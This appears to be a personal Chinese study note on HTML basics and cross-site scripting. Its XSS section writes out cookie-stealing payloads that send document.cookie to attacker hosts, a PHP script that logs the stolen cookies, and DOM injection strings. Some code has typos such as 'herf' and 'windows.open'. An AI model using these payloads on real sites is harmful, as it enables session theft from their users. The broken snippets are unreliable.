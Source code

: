 ```yaml
---
title: html
date: 2023-09-04 21:54:58
---
```

# HTML笔记

## 头

```html
<!doctype html>
<html>
    <head>
        <title>*****************</title>
    </head>
    <body>
        <h1>*********一级标题</h1>
        <h2>*********二级标题</h2>
        <!-- 以此类推 -->
        <!-- 这个是注释格式 -->
        <!-- 也可以这样 





-->
        <!-- 三种弹窗 -->
        <script>alert()</script>
        <script>confirm()</script>
        <script>prompt()</script>
        <!--  -->
        
        
        <p>这个是段落</p>
        <a herf="地址">这个是链接</a>	<!-- 引用地址 -->
        <img src="地址",width="**",height="**" /> <!-- 引用图片 -->
		
        <tr>
            <td>row1,cell1</td>
            <td>row1,cell2</td>
        </tr>
        <tr>
            <td>row2,cell1</td>
            <td>row2,cell2</td>
        </tr>
        <!-- 以上是表格格式 -->
<!--内嵌网页语法-->
        <iframe src="URL"></iframe>
        <!--设置高度宽度-->
        <iframe src="url" width="200" height="200"></iframe>
        <!--删除边框-->
        <iframe src="url" frameborder="0"></iframe>
        <!--可以跳转-->
        <iframe src="url" name=frame_></iframe>
        <p><a href="url" target="iframe_a">urlname</a></p>
        
```









# XSS

## 种类

- 反射型
- 存储型
- DOM型

## 反射型

不持久，仅支持单次链接

## 存储型

储存在被攻击服务器，持久

## DOM

不传到后端，前端通过document对象获取信息，js拼接执行

### Cookie

```shell
#cookie组成
Name=Value	设置cookie名称和值，作为认证cookie,value值包括web服务器所提供的访问令牌

Expires	设置cookie的生存期。有两种cookie:会话型与持久型。Expires缺省是为会话型cookie,仅保留在客户端内存，用户关闭浏览器时失效
持久型保存在用户硬盘，生存期到期或用户注销结束会话才会失效

Path	cookie所属u经，只有该路径及其下级目录可获取到该cookie

Domain	指定了可以访问该Cookie的Web站点或域，只有这个域或子域才能获取该cookie

Secure	表示该Cookie只可以使用https协议传输

HTTPOnly	设置HTTPOnly表示cookie不能被js读取，放置客户端通过document.cookie属性访问cookie

SameSite	定义cookie如何跨域发送
```

#### 三种攻击方式

- 请求带出

  vps开启监听，向存在xss漏洞网站插入代码后，可以接收到目标的cookie（base64_encode）

  ```html
  #攻击后浏览器打开新窗口，访问指定ip：端口，带上cookie
  <script>windows.open('http://ip:port/?q='+btoa(document.cookie));</script>
  #攻击在当前窗口访问ip和端口
  <script>location.herf='http://ip:port/?q='+btoa(document.cookie);</script>
  ```

- 访问指定网址执行js

  ```javascript
  #构造js
  var img = document.createElement("img");
  img.src = "http://ip:port/?q="+btoa(document.cookie);
  document.body.appendChild(img);
  
  #构造payload
  <script src=http://ip:port/js_location></script>
  ```

- 利用xss平台

  BLUE-LOTUS

  else……







---

```php+HTML
<?php
$filename ='cookies.txt';
$f = fopen($filename，'a'）
$cookie =urldecode($_GET['msg']) . PHP_EOL;
fwrite($f，$cookie);
fclose($f);
?>
```

 它会把msg参数的值进行url解码后再保存到cookies.txt这个文件里面。

   接下来就是构造JS代码来发起一个http请求了。利用Image对象就可以很轻易地完成该任务，新建一个Image对象，然后设置src属性，浏览器在碰到src属性的时候，会自动请求该src指向的url。这个url就写我们刚才写的接收cookie的页面的url，并且传msg参数过去，值为cookie。最终构造的语句为：

```php+HTML
<script>new Image().src="http://xss.com/recv_cookies.php?msg="+encodeURI(document.cookie);</script>
```



---

```php+HTML
function xssDom(){
var str = document.getElementById("msg").Value;
document.getElementById("show").innerHTML = "<a href="" + str + "'>xssDom</a>"
```

我们要让他没有语法错误，就需要构造语句闭合一些标签，所以，我们首先需要一个单引号来闭合 a标签的href属性。然后一个“>”来闭合a标签的“<”。这样构造以后，就变成了“<a href=''>在这里构造利用代码'>xssDom</a>”。所以我们可以构造如下语句：

   ` '><script>alert('xss');</script>`



w3c规定innerHTML进来的script标签内的脚本代码无法执行。

直接插入script无法执行，但是我们可以利用事件来触发，比如：onerror，onclick等。

构造如下数据：

`' onclick=alert(/xss/) //`

此时页面代码就变成了:

`<a href='' onclick=alert(/xss/) //'>xssDom</a>`

还有其他构造方法。例如我们闭合a标签，然后引入另外一个标签，比如img标签，利用img标签在加载src的时候，如果出错会触发onerror函数，我们就可以做到自动执行脚本代码而不需要交互。尝试输入如下数据：

`    '><img src=123 onerror=alert(/xss/) />`



## 页内跳转

```xml
    页面内的跳转需要两步：

    方法一：

    ①：设置一个锚点链接<a href="#libai">我是李白</a>；（注意：href属性的属性值最前面要加#）

    ②：在页面中需要的位置设置锚点<a name="libai"></a>；（注意：a标签中要写一个name属性，属性值要与①中的href的属性值一样，不加#）标签中按需填写必要的文字，一般不写内容

    方法二：

    ①：同方法一的①

    ②：设置锚点的位置  <h3 id="libai">我是李白</h3>；在要跳转到的位置的标签中添加一个id属性，属性值与①中href的属性值一样，不加#

    方法二不用单独添加一个a标签来专门设置锚点 ，只在需要的位置的标签中添加一个id即可。
```
